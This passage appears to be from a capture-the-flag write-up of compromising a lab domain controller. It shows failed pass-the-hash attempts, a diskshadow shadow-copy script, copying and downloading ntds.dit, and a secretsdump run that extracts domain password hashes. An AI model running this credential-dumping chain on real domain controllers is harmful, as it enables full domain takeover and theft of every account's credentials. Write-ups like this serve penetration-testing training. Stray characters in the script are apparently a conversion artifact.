 ```
nxc smb 10.10.95.204 -u 'administrator' -H '8d992faed38128ae85e95fa35868bb43'
SMB         10.10.95.204    445    BABYDC           [-] baby.vl\administrator:8d992faed38128ae85e95fa35868bb43 STATUS_LOGON_FAILURE

nxc smb 10.10.95.204 -u 'administrator' -H '8d992faed38128ae85e95fa35868bb43' --local-auth
SMB         10.10.95.204    445    BABYDC           [-] BABYDC\administrator:8d992faed38128ae85e95fa35868bb43 STATUS_LOGON_FAILURE
```

In order to get the domain credentials we would need to read the `ntds.dit` file, we can utilize the below script on the machine to backup the `C:` drive and expose it as `E:` allowing us to read get the `ntds.dit` file

```batch
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

Executing the script and copy the file over from E:
```
*Evil-WinRM* PS C:\temp> diskshadow /s script.txt 
*Evil-WinRM* PS C:\temp> robocopy /b E:\Windows\ntds . ntds.dit
*Evil-WinRM* PS C:\temp> download ntds.dit
```

We can now pass the ntds.dit file to secrets dump, which will give us the domain credentials
```
impacket-secretsdump -sam SAM.save -security SECURITY.save -system SYSTEM.save -ntds ntds.dit local
.....
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457[-]123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6[-]89c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:cdb4[-]5164:::
.....
```